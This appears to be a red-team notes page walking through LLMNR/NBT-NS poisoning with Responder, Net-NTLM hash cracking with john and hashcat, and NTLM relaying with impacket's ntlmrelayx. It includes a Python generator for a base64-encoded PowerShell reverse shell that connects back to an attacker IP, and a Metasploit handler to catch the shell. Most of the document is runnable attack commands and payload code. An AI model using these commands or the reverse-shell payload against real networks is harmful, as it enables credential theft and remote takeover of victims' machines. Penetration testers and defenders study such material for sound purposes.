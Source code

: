 ## LLMNR & NBT-NS Poisoning
- The victim wants to go to the print server at \\printserver, but mistakenly types in \\pintserver.
- The DNS server responds to the victim saying that it doesn’t know that host.
- The victim then asks if there is anyone on the local network that knows the location of \\pintserver.
- The attacker responds to the victim saying that it is the \\pintserver.
- The victim believes the attacker and sends its own username and NTLMv2 hash to the attacker.
- The attacker can now crack the hash to discover the password.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen1.png?raw=true)

### Responder
```
git clone https://github.com/SpiderLabs/Responder
python Responder.py -I eth0 -wrf
```

## Network Windows Authentication Cracking
### NTLMv1 (Net-NTLMv1) Crack
```
john --format=netntlm hash.txt
hashcat -m 5500 -a 3 hash.txt
```

### NTLMv2 (Net-NTLMv2) Crack
```
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```

## NTLM Relaying
- SMB Signing must be disabled, and this is the default setting except for the domain controllers.
- Relay the hashes to another machine.
- User must have admin access on this machine.

### Responder with SMB & HTTP Disabled (in Responder.conf)
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen2.png?raw=true)
```
git clone https://github.com/SpiderLabs/Responder
python Responder.py -I eth0 -wrf
```

### Determine the machines that have SMB signing disabled
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen3.png?raw=true)

### Powershell Reverse Encoded Shell
```
import base64
ip = '10.10.12.133' # your reverse shell ip
port = 4444 # your reverse shell port
payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)
cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print cmdline
```

### Run ntlmrelayx.py script and pass to it the encoded reverse shell.
```
git clone https://github.com/SecureAuthCorp/impacket
python3 ntlmrelayx.py -smb2support -tf targets.txt -of result -debug -c 'powershell -e EnCoDeDShElL'
```

### Metasploit multi handler to receive the shell.
```
msfconsole
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set lhost 10.0.2.15
set lport 4444
set ExitOnSession False
exploit -j
```

### Overall Process Overview
Machine 10.0.2.7 asks for an unknown host, then the attacker machine 10.0.2.15 responds to it with its own IP address, then machine 10.0.2.7 sends its credentials to the attacker machine 10.0.2.15 on port SMB, then the attacker machine takes these credentials and relays them to another machine 10.0.2.6, then machine 10.0.2.6 executed our reverse shell and the shell get back to us at 10.0.2.15.
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen4.png?raw=true)
Stealing hashes from 10.0.2.7 and authenticate with them to 10.0.2.6
